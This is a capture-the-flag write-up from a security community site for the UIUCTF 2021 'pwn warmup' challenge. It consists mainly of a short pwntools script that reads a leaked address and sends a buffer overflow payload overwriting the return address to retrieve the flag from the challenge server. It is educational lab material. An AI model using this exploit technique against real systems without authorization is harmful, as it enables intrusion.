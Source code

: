 ```yaml
---
layout: load_md
title: The White Circle | Uiuctf 2021 | pwn warmup Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Uiuctf 2021
parent: uiuctf_2021
category: pwn
challenge: pwn warmup
tags: "pwn, twh"
date: 2021-08-12T00:00:00+00:00
last_update: 2021-08-12T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Uiuctf 2021</h1>

## pwn warmup
> Solved by : thewhiteh4t


    #!/usr/bin/python3
    
    from pwn import *
    
    host = 'pwn-warmup.chal.uiuc.tf'
    port = 1337
    offset = 20
    addr = 0
    
    junk = b'A' * offset
    
    conn = remote(host, port)
    lines = conn.recvuntil('ad\n').decode().split('\n')
    addr = lines[2].split(' = ')[1].strip()
    addr = int(addr, 16)
    le_num = p64(addr)
    buffer = junk + le_num
    conn.sendline(buffer)
    flag = conn.recvuntil('}').decode()
    print(flag)
    


![](https://i.imgur.com/Usy3A7i.png)


